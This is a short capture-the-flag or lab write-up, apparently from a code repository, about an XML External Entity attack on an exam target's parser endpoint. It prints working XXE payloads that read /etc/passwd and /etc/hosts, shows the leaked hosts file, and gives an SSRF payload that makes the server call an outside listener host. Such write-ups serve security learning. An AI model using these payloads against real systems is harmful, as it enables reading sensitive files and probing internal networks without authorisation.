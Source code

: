   
<div class="divider"></div>
# XML External Entity Attack (XXE)
> Target: https://mysql.gw34908723to.ext.exam.ns.agency/ 

### Proof of Concept

1. Upon visitng the site and looking around, the flag is announced to be accessible only by the whitelisted host `172.18.0.2`.   
  There is also an XML parser at `/jsonp`.  

2. By testing out simple payloads we are able to confirm that an XXE attack is possible on the parser page.

<br/>
**Returns the /etc/passwd file**
```swift
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [ <!ELEMENT data ANY>
        <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

___

<br/>
**Returns the /etc/hosts file**
```swift
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [ <!ELEMENT data ANY>
        <!ENTITY file SYSTEM "file:///etc/hosts">
]>
<data>&file;</data>
```
(this confirms that indeed the flag host exists on the internal network)
```coffeescript
127.0.0.1	localhost
::1             localhost ip6-localhost ip6-loopback
fe00::0	        ip6-localnet
ff00::0	        ip6-mcastprefix
ff02::1	        ip6-allnodes
ff02::2	        ip6-allrouters
172.18.0.3	c6425498f52b
```

___

<br/>
**SSRF is also possible**
```swift
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
        <!ELEMENT data ANY>
        <!ENTITY  ohno SYSTEM "http://listener.ml:9447?q=test">
]>
<ssrf>&ohno;</ssrf>
```
